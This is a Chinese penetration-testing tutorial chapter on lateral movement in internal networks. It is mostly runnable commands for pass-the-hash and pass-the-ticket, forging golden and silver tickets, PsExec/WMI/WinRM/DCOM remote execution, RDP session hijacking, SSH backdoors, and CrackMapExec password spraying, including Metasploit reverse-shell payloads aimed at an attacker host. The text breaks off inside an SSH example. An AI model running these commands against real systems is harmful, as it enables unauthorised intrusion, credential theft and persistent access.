







# 第48章 横向移动技术

> **难度等级：🟠 高等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：横向移动概述、哈希传递、票据传递、PsExec、WMI、WinRM、RDP、SSH、CrackMapExec、Impacket套件、5个实战案例**

::: tip 说明
上一章我们学习了内网信息收集，
收集了那么多信息和凭据，
用来干嘛呢？
当然是用来横向移动啦！

什么是横向移动？
简单说就是：
从一台已经控制的机器，
移动到内网里的其他机器，
逐步扩大控制范围。

就像下棋一样，
你先有了一个棋子，
然后一步步扩张，
最后控制整个棋盘。

横向移动是内网渗透的核心，
也是最考验技术和经验的地方。
这一章我们就来系统学习
各种常用的横向移动技术。

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
很多人对横向移动的理解
可能就是"我有密码，远程登录过去"。
其实远不止这么简单。

横向移动涉及很多方面：
- 用什么凭据？（明文密码？Hash？票据？）
- 用什么协议？（SMB？WMI？WinRM？RDP？SSH？）
- 用什么工具？（PsExec？Mimikatz？CrackMapExec？Impacket？）
- 怎么更隐蔽？（减少日志、避免被杀软检测）
- 权限不够怎么办？（先提权？还是换个方法？）

而且不同的环境、不同的目标，
适合的方法也不一样。
有的机器开了445可以用PsExec，
有的开了5985可以用WinRM，
有的开了3389可以用RDP，
有的开了22可以用SSH...

> 💡 **大白话说横向移动**
>
> 横向移动，就像"病毒传播"或者"多骨诺米牌"：
>
> - 你控制了一台机器（推倒第一张牌）
> - 在这台机器上偷到"钥匙"（密码/哈希值/票据）  
> - 用这把钥匙去试周围的其他门（用凭据登录其他机器）
> - 哪扇门能用就推哪扇（成功登录就控制了）
> - 重复这个过程（在新机器上继续偷钥匙）
>
> **核心问题：凭什么我能在内网里"移动"？**
>
> 因为在很多企业内网里，用了**统一的域账号**管理！
> - IT管理员用同一个域账号管理几十台服务器
> - 只要在一台机器上抓到管理员的密码/哈希
> - 就能用这个凭据登录其他所有服务器
>
> 这就是为什么"凭据收集"是横向移动的前提。
>
> **横向移动的"铁三角"：**
> ```
> 凭据（钥匙） + 协议（开锁方式）+ 工具（开锁工具）= 横向移动
> ```
> - **钥匙**：明文密码 / NTLM哈希 / Kerberos票据
> - **开锁方式**：SMB(445) / WMI(135) / WinRM(5985) / RDP(3389) / SSH(22)
> - **开锁工具**：PsExec / WMIexec / CrackMapExec / Impacket / evil-winrm

有的开了22可以用SSH...

所以我们要掌握多种方法，
根据实际情况灵活运用。

这一章内容比较多，
大家耐心学，
都是非常实用的技术！
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解横向移动的概念和意义
- [x] 掌握哈希传递（PtH）技术
- [x] 掌握票据传递（PtT）技术
- [x] 学会使用PsExec进行横向移动
- [x] 学会使用WMI进行横向移动
- [x] 学会使用WinRM/PSRemoting
- [x] 了解RDP和SSH横向移动
- [x] 掌握CrackMapExec的使用
- [x] 了解Impacket套件
- [x] 了解MSF中的横向移动模块

**图48-1 横向移动技术分类体系图**



---

## 🔑 哈希传递（Pass-the-Hash, PtH）

### 1.1 什么是哈希传递？

在Windows环境中，
用户认证的时候，
其实不是直接用明文密码，
而是用密码的Hash（NTLM Hash）。

那是不是意味着，
我们只要有了Hash，
即使不知道明文密码，
也能登录？

没错！这就是**哈希传递**攻击。

**哈希传递的原理：**
Windows在进行NTLM认证时，
使用的是密码的Hash值。
如果我们能获取到用户的NTLM Hash，
就可以直接用这个Hash进行认证，
而不需要破解出明文密码。

**为什么哈希传递很重要？**
1. 很多时候我们只能抓到Hash，抓不到明文
2. 破解Hash需要时间，而且不一定能破解出来
3. 哈希传递直接用Hash，省时省力
4. 内网中大量使用NTLM认证，应用广泛

### 1.2 Mimikatz哈希传递

Mimikatz本身就支持哈希传递。

**Mimikatz PtH命令：**
```
privilege::debug
sekurlsa::pth /user:用户名 /domain:域名 /ntlm:NTLM_Hash
```

执行后，
会弹出一个新的cmd窗口，
这个窗口里的命令
都会用指定的Hash来认证。

**示例：**
```
sekurlsa::pth /user:administrator /domain:test.com /ntlm:518b98ad4178a53695dc997aa02d455c
```

然后在弹出的cmd窗口里，
就可以用这个用户的身份
访问网络资源了：
```cmd
:: 查看目标机器的共享
net view \\目标IP

:: 映射共享盘
net use z: \\目标IP\c$

:: 执行命令（需要结合其他工具）
```

### 1.3 CrackMapExec哈希传递

CrackMapExec（简称CME）
是一个非常强大的内网渗透工具，
支持哈希传递，
而且用法非常简单。

**CME哈希传递：**
```bash
# 验证凭据是否有效
crackmapexec smb 192.168.1.0/24 -u administrator -H 518b98ad4178a53695dc997aa02d455c

# 指定域名
crackmapexec smb 192.168.1.0/24 -u administrator -d test.com -H NTLM_Hash

# 执行命令
crackmapexec smb 192.168.1.100 -u administrator -H NTLM_Hash -x "whoami"

# 执行PowerShell命令
crackmapexec smb 192.168.1.100 -u administrator -H NTLM_Hash -X "whoami"

# 拿Shell
crackmapexec smb 192.168.1.100 -u administrator -H NTLM_Hash --shares
```

### 1.4 Impacket哈希传递

Impacket是一个Python写的工具套件，
里面有很多好用的工具，
也支持哈希传递。

**常用的Impacket工具：**

**psexec.py：**
```bash
# 用Hash连接
psexec.py 域名/用户名@目标IP -hashes LMHash:NTHash

# 示例
psexec.py test.com/administrator@192.168.1.100 -hashes :518b98ad4178a53695dc997aa02d455c
```

**wmiexec.py：**
```bash
wmiexec.py 域名/用户名@目标IP -hashes :NTLM_Hash
```

**smbexec.py：**
```bash
smbexec.py 域名/用户名@目标IP -hashes :NTLM_Hash
```

**atexec.py：**
```bash
atexec.py 域名/用户名@目标IP -hashes :NTLM_Hash "命令"
```

### 1.5 Metasploit哈希传递

MSF里也有很多模块支持哈希传递。

**PsExec模块：**
```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBDomain test.com
set SMBUser administrator
set SMBPass NTLM_Hash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 你的IP
run
```

**psexec_psh模块（PowerShell版本）：**
```bash
use exploit/windows/smb/psexec_psh
```

**SMB登录扫描（验证凭据）：**
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.0/24
set SMBDomain test.com
set SMBUser administrator
set SMBPass NTLM_Hash
run
```

### 1.6 哈希传递的注意事项

1. **权限要求**
   - 哈希传递本身不需要特殊权限
   - 但要抓Hash一般需要管理员/System权限

2. **目标要求**
   - 目标需要开启SMB（445端口）或其他支持NTLM认证的服务
   - 目标不能开启"仅网络登录"等限制

3. **防护措施**
   - 微软有一些补丁可以缓解哈希传递
   - 比如KB2871997（虽然不能完全防御）
   - 还有LSA保护（RunAsPPL）

4. **哈希传递的限制**
   - 只能用于网络认证（不能用来本地登录）
   - 不能通过UAC（用户账户控制）
   - 有些高级功能可能用不了

**图48-2 哈希传递（PtH）与票据传递（PtT）对比图**



---

## 🎫 票据传递（Pass-the-Ticket, PtT）

### 2.1 什么是票据传递？

在域环境中，
如果用的是Kerberos认证，
那我们还可以用**票据传递**攻击。

**Kerberos票据的种类：**
1. **TGT（票据授权票据）** — 用来申请其他票据
2. **ST（服务票据）** — 用来访问具体的服务

如果我们有某个用户的TGT票据，
就可以用这个票据
以该用户的身份访问网络资源，
这就是**票据传递**。

**票据传递 vs 哈希传递：**
- 哈希传递（PtH）：用NTLM Hash，走NTLM协议
- 票据传递（PtT）：用Kerberos票据，走Kerberos协议

**为什么用票据传递？**
1. 有些环境禁用了NTLM，只能用Kerberos
2. 票据传递更隐蔽，日志更少
3. 可以利用Kerberos的一些特性（如白银票据、黄金票据）

### 2.2 Mimikatz票据传递

**第一步：导出票据**
```
privilege::debug
sekurlsa::tickets /export
```
会导出很多.kirbi文件，
这些就是Kerberos票据。

**第二步：导入票据**
```
kerberos::ptt 票据文件.kirbi
```

导入之后，
当前会话就有了这个票据的权限，
可以直接访问对应的服务。

**第三步：验证**
```cmd
:: 查看当前票据
klist

:: 访问目标服务
dir \\目标机器\c$
```

### 2.3 Rubeus票据传递

Rubeus是一个专门用来
操作Kerberos票据的工具，
非常强大。

**Rubeus常用功能：**

**列出当前票据：**
```cmd
Rubeus.exe klist
```

**导出票据：**
```cmd
# 导出所有票据
Rubeus.exe dump /service:krbtgt

# 导出指定用户的TGT
Rubeus.exe tgtdeleg
```

**导入票据：**
```cmd
Rubeus.exe ptt /ticket:票据文件.kirbi
```

**创建白银票据：**
```cmd
Rubeus.exe silver /service:cifs /rc4:NTLM_Hash /user:用户名 /domain:域名 /target:目标机器 /ptt
```

**创建黄金票据：**
```cmd
Rubeus.exe golden /rc4:krbtgt的Hash /user:用户名 /domain:域名 /sid:域SID /ptt
```

### 2.4 票据传递的应用场景

**1. 白银票据（Silver Ticket）**
伪造某个服务的ST（服务票据），
只能访问指定的服务。

需要的信息：
- 服务账号的Hash（或者计算机账号的Hash）
- 域名、域SID
- 目标服务器名、服务名

**2. 黄金票据（Golden Ticket）**
伪造TGT（票据授权票据），
可以申请任何服务的票据，
相当于域管理员权限。

需要的信息：
- krbtgt用户的Hash
- 域名、域SID
- 想伪造的用户名（一般是administrator）

**3. 钻石票据（Diamond Ticket）**
更高级的票据伪造技术，
比黄金票据更隐蔽。

（域渗透的章节会详细讲）

### 2.5 注意事项

1. **时间同步**
   - Kerberos对时间很敏感
   - 时间差不能太大（一般5分钟内）
   - 时间不对的话票据用不了

2. **票据有效期**
   - TGT一般有效期10小时
   - ST一般有效期几小时
   - 过期了就不能用了

3. **权限**
   - 抓票据一般需要管理员权限
   - 用票据不需要特殊权限

4. **域名解析**
   - Kerberos需要正确的域名解析
   - 要把目标域名解析到正确的IP

---

## 🖥️ PsExec 横向移动

### 3.1 PsExec简介

PsExec是微软官方的工具，
本来是用来远程管理的，
但也经常被用来做横向移动。

**PsExec的原理：**
1. 连接目标的Admin$共享
2. 上传一个服务程序（PSEXESVC）
3. 在目标上创建并启动服务
4. 服务执行命令，把结果通过管道传回来

**PsExec的优点：**
- 微软官方工具，相对来说不那么容易被杀
- 可以直接获得交互式Shell
- 使用简单

**PsExec的缺点：**
- 需要目标开启445端口（SMB）
- 需要管理员权限
- 会创建服务，留下日志
- 很容易被检测到

### 3.2 原生PsExec使用

**基本用法：**
```cmd
:: 用密码连接
psexec \\目标IP -u 用户名 -p 密码 cmd

:: 用Hash连接（需要配合哈希传递）
:: 先做PtH，然后直接psexec
psexec \\目标IP cmd

:: 指定域
psexec \\目标IP -u 域名\用户名 -p 密码 cmd

:: 执行单条命令
psexec \\目标IP -u 用户名 -p 密码 ipconfig

:: 以System权限运行
psexec \\目标IP -u 用户名 -p 密码 -s cmd
```

**注意：**
- 原生PsExec不直接支持Hash
- 要用Hash的话，需要先用Mimikatz做PtH
- 或者用其他工具（如MSF的psexec模块、Impacket的psexec.py）

### 3.3 Metasploit PsExec模块

MSF里的psexec模块功能更强大，
还支持直接用Hash。

**基本使用：**
```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass 密码或Hash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
run
```

**用Hash的话：**
```bash
set SMBPass NTLM_Hash
```
直接把SMBPass设为NTLM Hash就行，
MSF会自动识别。

**其他psexec模块：**
- `exploit/windows/smb/psexec_psh` — PowerShell版本，更隐蔽
- `exploit/windows/local/current_user_psexec` — 用当前用户权限

### 3.4 Impacket psexec.py

Impacket里的psexec.py
也是非常常用的工具。

**使用方法：**
```bash
# 用密码
psexec.py 域名/用户名:密码@目标IP

# 用Hash
psexec.py 域名/用户名@目标IP -hashes :NTLM_Hash

# 示例
psexec.py test.com/administrator:Pass123!@192.168.1.100
psexec.py test.com/administrator@192.168.1.100 -hashes :518b98ad4178a53695dc997aa02d455c
```

### 3.5 PaExec

PaExec是PsExec的开源替代品，
功能和PsExec类似，
但因为不是微软官方的，
可能更容易被杀软查杀。

不过也有好处，
你可以自己编译修改，
做免杀。

**图48-3 PsExec 工作原理流程图**



---

## ⚙️ WMI 横向移动

### 4.1 WMI简介

WMI（Windows Management Instrumentation）
是Windows的管理接口，
可以用来远程管理Windows机器。

**WMI的优点：**
- Windows自带，不需要上传工具
- 相对PsExec更隐蔽一些
- 不需要创建服务（至少看起来不像）
- 很多企业的监控软件都用WMI，流量不那么可疑

**WMI的缺点：**
- 默认没有回显（需要自己处理）
- 使用相对复杂一些
- 也需要管理员权限

### 4.2 原生WMI命令执行

**wmic命令：**
```cmd
:: 远程执行命令（没有回显）
wmic /node:目标IP /user:用户名 /password:密码 process call create "cmd.exe /c ipconfig > c:\temp\output.txt"

:: 然后读取输出文件
type \\目标IP\c$\temp\output.txt
```

**PowerShell的WMI命令：**
```powershell
# 远程执行命令
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "ipconfig" -ComputerName 目标IP -Credential (Get-Credential)
```

或者用CIM：
```powershell
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine="ipconfig"} -ComputerName 目标IP
```

### 4.3 wmiexec.py（Impacket）

wmiexec.py是Impacket套件里的工具，
封装了WMI执行命令的功能，
还自动处理了回显，
非常好用。

**使用方法：**
```bash
# 用密码
wmiexec.py 域名/用户名:密码@目标IP

# 用Hash
wmiexec.py 域名/用户名@目标IP -hashes :NTLM_Hash

# 执行单条命令
wmiexec.py 域名/用户名:密码@目标IP "ipconfig"

# 示例
wmiexec.py test.com/administrator:Pass123!@192.168.1.100
wmiexec.py test.com/administrator@192.168.1.100 -hashes :518b98ad4178a53695dc997aa02d455c
```

wmiexec.py会给你一个半交互式的Shell，
用起来很方便。

### 4.4 WMI的其他用途

WMI不止能执行命令，
还能做很多事情：

**1. 信息收集**
```powershell
# 操作系统信息
Get-WmiObject Win32_OperatingSystem -ComputerName 目标IP

# 进程列表
Get-WmiObject Win32_Process -ComputerName 目标IP

# 服务列表
Get-WmiObject Win32_Service -ComputerName 目标IP

# 用户列表
Get-WmiObject Win32_UserAccount -ComputerName 目标IP
```

**2. 横向移动的其他方式**
- 修改注册表
- 创建计划任务
- 修改服务
- ...

### 4.5 DCOM横向移动

DCOM（分布式组件对象模型）
也是一种远程执行代码的方式，
基于WMI/DCOM。

工具：
- **dcomexec.py**（Impacket套件里的）

**使用方法：**
```bash
dcomexec.py 域名/用户名:密码@目标IP
dcomexec.py 域名/用户名@目标IP -hashes :NTLM_Hash
```

---

## 💻 WinRM / PSRemoting

### 5.1 WinRM简介

WinRM（Windows Remote Management）
是微软的远程管理协议，
基于HTTP/HTTPS，
默认端口5985（HTTP）和5986（HTTPS）。

PowerShell远程管理（PSRemoting）
就是基于WinRM的。

**WinRM的优点：**
- Windows自带，越来越多的机器默认开启
- 基于HTTP，容易伪装
- 可以直接用PowerShell，功能强大
- 相对来说比较隐蔽

**WinRM的缺点：**
- 不是所有机器都开了
- 需要管理员权限（或者配置了特殊权限）

### 5.2 PowerShell远程连接

**基本用法：**
```powershell
# 建立远程会话
Enter-PSSession -ComputerName 目标IP -Credential 域名\用户名

# 执行单条命令
Invoke-Command -ComputerName 目标IP -ScriptBlock { whoami } -Credential 域名\用户名

# 执行脚本
Invoke-Command -ComputerName 目标IP -FilePath .\script.ps1 -Credential 域名\用户名
```

**先保存凭据：**
```powershell
$cred = Get-Credential
Enter-PSSession -ComputerName 192.168.1.100 -Credential $cred
```

**用Hash的话：**
PowerShell原生不直接支持用Hash，
需要先做PtH，然后再用。

或者用一些工具来转换。

### 5.3 evil-winrm

evil-winrm是一个专门用来
利用WinRM进行渗透的工具，
非常强大，强烈推荐！

**安装：**
```bash
gem install evil-winrm
```

**使用方法：**
```bash
# 用密码
evil-winrm -i 目标IP -u 用户名 -p 密码

# 用Hash
evil-winrm -i 目标IP -u 用户名 -H NTLM_Hash

# 用SSL（5986端口）
evil-winrm -i 目标IP -u 用户名 -p 密码 -S

# 指定域名
evil-winrm -i 目标IP -u 用户名 -p 密码 -d 域名
```

**evil-winrm的功能：**
- 完整的PowerShell远程Shell
- 上传/下载文件
- 加载PowerShell脚本
- 绕过AMSI
- 加载C#程序集
- ...

真的非常好用，
是WinRM横向移动的首选工具！

### 5.4 CrackMapExec WinRM模块

CrackMapExec也支持WinRM：
```bash
# 验证凭据
crackmapexec winrm 192.168.1.0/24 -u administrator -p 密码

# 用Hash
crackmapexec winrm 192.168.1.0/24 -u administrator -H NTLM_Hash

# 执行命令
crackmapexec winrm 192.168.1.100 -u administrator -p 密码 -x "whoami"
```

**图48-4 PsExec / WMI / WinRM 三种横向移动方法对比图**



---

## 🔒 RDP 横向移动

### 6.1 RDP简介

RDP（Remote Desktop Protocol）
就是Windows的远程桌面，
默认端口3389。

**RDP的优点：**
- 图形界面，操作方便
- 很多服务器都开了
- 可以看到用户的桌面，做很多操作

**RDP的缺点：**
- 需要目标开了远程桌面
- 需要用户有远程登录权限
- 图形界面流量比较大
- 如果用户正在使用，会把对方挤下去，容易暴露

### 6.2 普通RDP连接

**Windows自带mstsc：**
直接运行`mstsc`，
输入IP、用户名、密码，
连接就行。

**命令行连接：**
```cmd
mstsc /v:目标IP /u:用户名 /p:密码
```

### 6.3 RDP哈希传递

RDP也支持哈希传递吗？
默认是不支持的，
但是有办法！

**方法一：Restricted Admin模式**
Windows 8.1/Server 2012 R2及以上
支持Restricted Admin模式，
这种模式下可以用Hash登录。

```cmd
:: 开启Restricted Admin模式（需要在目标上开启）
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f

:: 连接
mstsc /v:目标IP /restrictedadmin
```

或者用Mimikatz的`sekurlsa::pth`
配合`/run:mstsc.exe /restrictedadmin`。

**方法二：xfreerdp**
Linux下的xfreerdp支持用Hash：
```bash
xfreerdp /u:用户名 /d:域名 /pth:NTLM_Hash /v:目标IP
```

### 6.4 其他RDP工具

**1. rdesktop**
Linux下的RDP客户端：
```bash
rdesktop -u 用户名 -p 密码 目标IP
```

**2. Mimikatz + RDP**
用Mimikatz做PtH，然后启动mstsc：
```
sekurlsa::pth /user:用户名 /domain:域名 /ntlm:Hash /run:"mstsc.exe /restrictedadmin"
```

**3. RDPSession**
窃取RDP会话，
可以不输入密码就登录。

### 6.5 RDP劫持

如果目标机器上
已经有用户登录了RDP会话，
我们可以直接劫持那个会话，
不需要密码。

**方法：**
```cmd
:: 查看当前会话
query user

:: 连接到指定会话
tscon 会话ID /password:密码
```

或者用工具：
- **mimikatz** 的 `ts::` 相关命令
- **RDPThief** — 窃取RDP凭据

---

## 🐧 SSH 横向移动

### 7.1 SSH简介

SSH是Linux下最常用的
远程登录方式，
默认端口22。

在内网中，
如果有Linux机器，
SSH横向移动也很常用。

**SSH的优点：**
- Linux几乎都开着
- 安全性高（加密传输）
- 功能强大（命令行、文件传输、端口转发...）

**SSH的缺点：**
- 公钥配置好的话密码登录可能关了
- 堡垒机/跳板机的情况下可能用不了

### 7.2 SSH密码登录

**基本用法：**
```bash
# 登录
ssh 用户名@目标IP

# 指定端口
ssh -p 端口 用户名@目标IP

# 执行单条命令
ssh 用户名@目标IP "命令"

# 上传文件
scp 文件 用户名@目标IP:/路径/

# 下载文件
scp 用户名@目标IP:/路径/文件 ./
```

**SSHpass（非交互输入密码）：**
```bash
# 安装
apt install sshpass

# 使用
sshpass -p 密码 ssh 用户名@目标IP
sshpass -p 密码 scp 文件 用户名@目标IP:/路径/
```

### 7.3 SSH密钥登录

如果拿到了目标用户的私钥，
那就更方便了，
直接用私钥登录，
连密码都不用。

**用法：**
```bash
# 用私钥登录
ssh -i id_rsa 用户名@目标IP

# 修改权限（私钥权限不能太大）
chmod 600 id_rsa
```

**怎么找私钥？**
- 用户家目录的`.ssh/`文件夹
- 配置文件里
- 代码仓库里
- 共享文件夹里
- 其他机器上收集

### 7.4 SSH横向移动的思路

1. **收集SSH密钥**
   - 在已控制的机器上找私钥
   - 看看有没有可以免密登录的机器

2. **密码复用**
   - 收集到的密码试试其他机器的SSH
   - 很多管理员习惯用同一个密码

3. **SSH隧道/端口转发**
   - SSH不仅能登录，还能做端口转发
   - 可以作为隧道工具使用

4. **SSH后门**
   - 在目标上留SSH后门
   - 比如植入公钥、开一个新端口等

---

## 🛠️ CrackMapExec 使用详解

### 8.1 CME简介

CrackMapExec（简称CME）
是一个非常强大的内网渗透工具，
可以说是内网神器！

**CME支持的协议：**
- SMB
- WinRM
- MSSQL
- SSH
- FTP
- LDAP
- ...

**CME能做什么？**
- 凭据验证（密码/Hash spraying）
- 命令执行
- 文件上传下载
- 枚举信息（用户、组、共享、会话...）
- 漏洞检测
- 拿Shell
- ...

### 8.2 安装CME

```bash
# 方法一：pip安装
pip install crackmapexec

# 方法二：Apt安装（Kali）
apt install crackmapexec

# 方法三：Docker
docker pull byt3bl33d3r/crackmapexec
```

### 8.3 SMB协议常用命令

**主机存活探测：**
```bash
crackmapexec smb 192.168.1.0/24
```

**凭据验证：**
```bash
# 密码验证
crackmapexec smb 192.168.1.0/24 -u administrator -p 'Pass123!'

# Hash验证
crackmapexec smb 192.168.1.0/24 -u administrator -H NTLM_Hash

# 域用户
crackmapexec smb 192.168.1.0/24 -u administrator -d test.com -p 'Pass123!'

# 密码喷洒（多个用户，同一个密码）
crackmapexec smb 192.168.1.0/24 -u users.txt -p 'Pass123!'

# 密码爆破（一个用户，多个密码）
crackmapexec smb 192.168.1.0/24 -u administrator -p passwords.txt
```

**命令执行：**
```bash
# 执行cmd命令
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' -x "whoami"

# 执行PowerShell命令
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' -X "whoami"

# 用Hash
crackmapexec smb 192.168.1.100 -u administrator -H NTLM_Hash -x "whoami"
```

**信息枚举：**
```bash
# 枚举共享
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --shares

# 枚举用户
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --users

# 枚举组
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --groups

# 枚举会话
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --sessions

# 枚举磁盘
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --disks

# 枚举登录用户
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --loggedon-users
```

**文件操作：**
```bash
# 上传文件
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --put-file 本地文件 远程路径

# 下载文件
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' --get-file 远程文件 本地路径
```

**拿Shell：**
```bash
# 启动Metasploit监听，然后
crackmapexec smb 192.168.1.100 -u administrator -p 'Pass123!' -M metinject -o LHOST=你的IP LPORT=4444
```

### 8.4 其他协议

**WinRM：**
```bash
crackmapexec winrm 192.168.1.0/24 -u administrator -p 'Pass123!'
crackmapexec winrm 192.168.1.100 -u administrator -p 'Pass123!' -x "whoami"
```

**MSSQL：**
```bash
crackmapexec mssql 192.168.1.0/24 -u sa -p 'Pass123!'
crackmapexec mssql 192.168.1.100 -u sa -p 'Pass123!' -x "whoami"
```

**SSH：**
```bash
